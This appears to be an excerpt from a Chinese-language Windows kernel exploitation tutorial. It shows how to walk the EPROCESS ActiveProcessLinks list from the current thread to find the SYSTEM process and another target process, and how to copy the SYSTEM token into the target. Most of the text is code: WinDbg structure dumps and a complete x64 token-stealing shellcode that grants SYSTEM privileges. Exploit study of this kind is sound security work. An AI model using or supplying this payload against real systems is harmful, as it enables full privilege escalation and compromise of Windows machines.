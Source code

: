 最後是要找 EPROCESS 內的 ActiveProcessLinks 來遍歷整個 EPROCESS，找出 system 的 token
他在 _EPROCESS + 0x1d8

```c
typedef struct _LIST_ENTRY{
    _LIST_ENTRY* Flink;
    _LIST_ENTRY* Blink;
} LIST_ENTRY;
```

```
kd> dt nt!_EPROCESS
   +0x000 Pcb              : _KPROCESS
   +0x1c8 ProcessLock      : _EX_PUSH_LOCK
   +0x1d0 UniqueProcessId  : Ptr64 Void
   +0x1d8 ActiveProcessLinks : _LIST_ENTRY
```

所以目前 shellcode 先這樣寫
```asm
mov rdx, gs:[0x188];  // gs+0x188 find CurrentThread (_KTHREAD)
mov rdx, [rdx+0xb8];  // find _KPROCESS = _EPROCESS
mov r9, [rdx+0x1d8];  // find ActiveProcessLinks
mov rcx, r9;	       // find Flink
```

已經可以清楚的看到 rcx 內拿到了 Flink 了
接下來來寫循環查找，拿 token 跟寫 token

UniqueProcessId 位於 Flink-0x8
通過 rcx - 0x8 就可以拿到 UID

```
   +0x240 ExceptionPortValue : Uint8B
   +0x240 ExceptionPortState : Pos 0, 3 Bits
   +0x248 Token            : _EX_FAST_REF
```

token 部分則在 _EPORCESS + 0x248
接下來就是循環去找了，直接上，最後用 loop 來去卡著 shell

最終 shellcode 在這
```asm
mov rdx, gs:[0x188]; 
mov rdx, [rdx+0xb8];
mov r9, [rdx+0x1d8];
mov rcx, r9;

srch_for_sys:
mov rdx, [rcx - 8];
cmp rdx, 4;
jz out1;
mov rcx, [rcx];         
jmp srch_for_sys;

out1:
mov rax, [rcx + 0x70];

srch_our_proc:
mov rdx, [rcx - 8];
cmp rdx, 0x7788;
jz final;
mov rcx, [rcx];
jmp srch_our_proc;

final:
mov [rcx + 0x70], rax;

loop:
```